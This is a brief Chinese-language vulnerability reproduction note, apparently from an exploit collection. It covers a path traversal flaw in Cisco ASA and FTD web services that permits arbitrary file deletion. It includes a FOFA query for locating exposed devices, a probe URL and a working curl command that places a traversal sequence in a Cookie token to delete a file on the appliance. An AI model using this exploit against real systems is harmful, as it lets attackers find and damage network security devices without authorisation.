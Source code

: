 # CISCO ASA设备任意文件删除漏洞

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

> Cisco ASA设备、Cisco FTD设备

## FOFA

> /+CSCOE+/&&Cisco-ASA

## 漏洞复现

访问

```
http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 
```

 存在则可能出现此漏洞

![cisco-6](resource/CISCO-ASA/cisco-6.png)

例如我们删除一张图片

```
http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif
```

![cisco-7](resource/CISCO-ASA/cisco-7.png)

使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```

![cisco-8](resource/CISCO-ASA/cisco-8.png)

成功删除图标